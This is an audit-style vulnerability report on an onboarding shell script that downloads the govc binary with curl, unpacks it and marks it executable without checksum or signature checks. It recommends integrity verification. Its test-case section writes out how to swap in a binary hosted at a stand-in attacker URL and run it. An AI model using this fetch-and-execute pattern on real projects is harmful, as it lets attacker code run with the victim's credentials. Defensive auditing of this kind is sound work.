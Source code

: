 ### Vulnerability List

- Vulnerability Name: Malicious govc Binary Download via PR Modification
- Description:
    1. A malicious actor submits a pull request to modify the `/code/src/appliance-onboarding-script/run.sh` script.
    2. In the pull request, the attacker changes the `URL_TO_BINARY` variable on line 86 from `https://github.com/vmware/govmomi/releases/download/v0.24.0/govc_linux_amd64.gz` to a URL pointing to a malicious `govc_linux_amd64.gz` binary hosted on an attacker-controlled server or a compromised legitimate server.
    3. If the pull request is merged or if a user executes the modified script from the attacker's branch, the script will download the malicious `govc` binary instead of the legitimate one.
    4. The script proceeds to extract the downloaded archive and make the binary executable using `chmod +x`.
    5. Subsequently, when other parts of the scripts or related components attempt to use `govc`, they will be executing the malicious binary.
- Impact:
    - Execution of arbitrary code on the system where the script is run with the permissions of the script execution context (potentially elevated if `sudo` is used later with the compromised `govc`).
    - Potential compromise of the vCenter environment if the malicious `govc` binary is designed to interact with vCenter in a harmful way using the provided credentials or if it exfiltrates vCenter credentials.
    - Potential compromise of Azure resources if the malicious binary gains access to Azure credentials or is designed to interact with Azure services maliciously.
    - Data breach or disruption of service depending on the payload of the malicious `govc` binary.
- Vulnerability Rank: High
- Currently Implemented Mitigations:
    - None. The script downloads and executes the binary directly without any integrity checks.
- Missing Mitigations:
    - **Integrity Checks:** Implement integrity checks for downloaded binaries. This could involve:
        - **Checksum Verification:** Download a checksum file (e.g., SHA256) from a trusted source alongside the binary and verify the checksum of the downloaded binary before execution.
        - **Signature Verification:** Verify a digital signature of the binary using a public key from a trusted source.
    - **Secure Binary Hosting:** Host the `govc` binary (and potentially Azure CLI install script) in a controlled and trusted location, such as Azure Blob Storage with restricted access and integrity protection, instead of relying on external public repositories like GitHub releases.
    - **Dependency Pinning/Vendoring:** Consider including the `govc` binary directly in the repository or using a secure distribution mechanism (like a private package registry) to avoid runtime downloads and ensure a known good version is used. If downloading at runtime is necessary, pin the version explicitly and strictly validate the download source and integrity.
- Preconditions:
    - The attacker must be able to submit a pull request and convince a maintainer to merge it, or be able to execute the script from their own modified branch.
    - The script must be executed in an environment that has internet access to download the binary and permissions to execute it.
- Source Code Analysis:
    - File: `/code/src/appliance-onboarding-script/run.sh`
    - Line 86: `URL_TO_BINARY="https://github.com/vmware/govmomi/releases/download/v0.24.0/govc_linux_amd64.gz"` - Defines the download URL for the `govc` binary. This URL is hardcoded and can be changed via a pull request.
    - Line 88: `curl -L $URL_TO_BINARY | gunzip > ./.temp/govc` - Downloads the binary from the URL defined in `URL_TO_BINARY` using `curl` and extracts it using `gunzip`. The `-L` option for `curl` follows redirects, which could be a concern if the attacker can redirect the download to a malicious site.
    - Line 89: `sudo -E chmod +x ./.temp/govc` - Sets execute permissions on the downloaded binary, making it runnable.
- Security Test Case:
    1. **Setup Attacker Environment:** Prepare a malicious `govc_linux_amd64.gz` binary. This could be a simple script that prints a message to `stdout` and exits for a safe test, or a more sophisticated payload for a real exploit scenario. Host this malicious binary on an attacker-controlled web server accessible via `https://attacker.example.com/malicious-govc_linux_amd64.gz`.
    2. **Fork Repository:** Fork the target GitHub repository.
    3. **Modify `run.sh` in Fork:** In your forked repository, edit the file `/code/src/appliance-onboarding-script/run.sh`.
    4. **Change `URL_TO_BINARY`:** On line 86, replace the original URL with the URL of your malicious binary:
       ```bash
       URL_TO_BINARY="https://attacker.example.com/malicious-govc_linux_amd64.gz"
       ```
    5. **Create Pull Request (Optional for direct testing):** Create a pull request from your fork to the original repository with this change. For direct testing, you can skip the pull request and directly use your fork.
    6. **Execute Modified Script:** In a test environment (e.g., a virtual machine or a controlled Azure environment), clone your forked repository or checkout the branch with the modified `run.sh`.
    7. **Run `run.sh`:** Execute the modified `run.sh` script: `bash run.sh <operation> <config_file_path>`. Provide valid arguments for `<operation>` and `<config_file_path>` to allow the script to proceed to the binary download section.
    8. **Observe Execution:** Observe the output of the script. If the test malicious binary is simple (e.g., prints a message), you should see that message in the script's output, indicating that your malicious binary was downloaded and executed. For a real exploit, the actions defined in the malicious `govc` binary would be executed.
    9. **Verify Vulnerability:** If the malicious code from your binary is executed, the vulnerability is confirmed.

This is a valid vulnerability that can be exploited through a malicious pull request, leading to potential system compromise.